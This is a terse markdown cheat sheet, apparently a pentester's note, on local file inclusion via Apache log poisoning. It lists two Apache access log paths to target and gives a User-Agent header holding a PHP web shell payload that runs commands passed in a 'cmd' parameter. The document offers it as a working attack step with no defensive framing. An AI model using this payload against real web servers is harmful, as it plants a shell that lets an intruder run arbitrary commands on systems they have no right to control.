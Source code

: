 # lfi

## check

- /var/log/apache/access.log
- /var/log/apache2/access.log

## set payload via user-agent

```
User-Agent: <?php system($_GET['cmd']);?>
```
